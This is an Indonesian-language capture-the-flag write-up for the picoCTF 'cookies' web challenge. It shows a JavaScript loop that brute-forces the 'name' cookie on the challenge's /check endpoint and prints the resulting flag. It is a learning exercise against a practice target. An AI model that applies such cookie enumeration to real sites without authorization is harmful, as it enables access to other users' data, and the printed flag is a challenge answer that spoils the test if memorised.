





Pada soal diberikan sebuah web berikut.


Pertama saya coba search menggunakan kata yang disarankan, lalu diarahkan ke halaman /check dengan response berikut.


Berdasarkan nama challenge, saya cek cookies pada web tersebut. Ketika pertama kali mengunjungi web tersebut, nilai cookie name = -1. Tapi setelah saya melakukan search valid bisquit seperti snickerdoodle, nilai name = 0.


Saya ubah value name dari 0 sampe 10 selalu berubah-ubah, sepertinya saya harus cari value name yang berisi nilai flagnya. Saya buat script js untuk brute force cookie name.
```javascript
const url = 'http://mercury.picoctf.net:54219/check';

for (let i = 0; i < 25; i++) {
    const headers = { 'Cookie': `name=${i}` };
    
    fetch(url, { method: 'GET', headers })
        .then(response => response.text())
        .then(text => {
            if (text.includes('picoCTF')) {
                console.log(text);
            }
        })
        .catch(error => console.error('Error:', error));
}
```
Flag berhasil didapatkan


**Flag : picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}**